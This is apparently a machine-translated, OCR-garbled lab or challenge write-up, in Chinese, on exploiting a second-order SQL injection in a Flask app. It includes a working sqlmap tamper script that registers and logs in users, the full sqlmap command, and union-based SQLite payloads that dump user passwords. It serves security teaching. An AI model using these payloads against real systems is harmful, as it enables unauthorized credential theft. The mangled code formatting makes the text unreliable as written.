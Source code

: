 *****可以使用 sqlmap 来自动化这种攻击，但是使用 sqlmap 的标准攻击将会失败。注入发生在用户注册时，但是易受攻击的函数位于注释页面上。要让 sqlmap 利用此漏洞，它必须执行以下步骤:*****

1.  *****注册一个恶意用户*****
2.  *****恶意用户登录*****
3.  *****转到注释页面触发注射*****

*****通过创建篡改脚本可以实现所有必要的步骤。Sqlmap 支持篡改脚本，即用于篡改注入数据的脚本。使用篡改脚本，我们可以轻松地修改有效负载，例如，向它添加自定义编码。它还允许我们设置其他东西，比如 cookies。*****

*****下面的篡改脚本中有两个自定义函数。第一个函数是 *create_account()* ，它用 sqlmap 的有效负载作为名称，用‘ASD’作为密码注册一个用户。下一个定制函数是 *login()* ，它以新创建的用户身份登录 sqlmap 并返回 Flask 会话 cookie。 *tamper()* 是脚本中的主要函数，它有*有效负载*和 ***kwargs* 作为参数。 ***kwargs* 保存诸如 HTTP 头之类的信息，我们需要将 Flask 会话 cookie 放在请求上，以允许 sqlmap 转到 notes 页面来触发 SQL 注入。 *tamper()* 函数首先从 *kwargs* 获取头，然后在应用程序上创建一个新用户，然后登录到应用程序并在 HTTP 头对象上设置 Flask 会话。*****

```
****#!/usr/bin/python*import requestsfrom lib.core.enums import PRIORITY__priority__ = PRIORITY.NORMALaddress = "http://10.10.1.134:5000/challenge4"password = "asd"def **dependencies**():passdef **create_account**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/signup", data=data)def **login**(payload):with requests.Session() as s:data = {"username": payload, "password": password}resp = s.post(f"{address}/login", data=data)sessid = s.cookies.get("session", None)return "session={}".format(sessid)def **tamper**(payload, **kwargs):headers = kwargs.get("headers", {})create_account(payload)headers["Cookie"] = login(payload)return payload***
```

*****篡改脚本所在的文件夹也需要一个空的 *__init__。py* 文件，以便 sqlmap 能够加载它。在使用篡改脚本启动 sqlmap 之前，更改脚本中的地址和密码变量。完成后，就可以使用以下命令利用该漏洞:*****

```
***sqlmap --tamper so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup)  --data "username=admin&password=asd"--second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes)  -p username --dbms sqlite --technique=U --no-cast*# --tamper so-tamper.py - The tamper script**# --url - The URL of the injection point, which is /signup in this case**# --data - The POST data from the registraion form to /signup.**#   Password must be the same as the password in the tamper script**# --second-url* [*http://10.10.1.134:5000/challenge4/notes*](http://10.10.1.134:5000/challenge4/notes) *- Visit this URL to check for results**# -p username - The parameter to inject to**# --dbms sqlite - To speed things up**# --technique=U - The technique to use. [U]nion-based**# --no-cast - Turn off payload casting mechanism****
```

*****如果不使用 *—无转换*参数关闭有效负载转换机制，转储*用户*表可能会很困难。这里可以看到铸造和不铸造之间区别的一个例子:*****

## *****—启用铸造时:*****

```
***admin' union **all** select **min**(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master where tbl_name=cast(x'7573657273' as text)-- daqo'-- 7573657273 is 'users' in **ascii*****
```

## *****—无铸件:*****

```
***admin' union **all** select cast(x'717a6a7871' as text)||**id**||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null from users-- ypfr'***
```
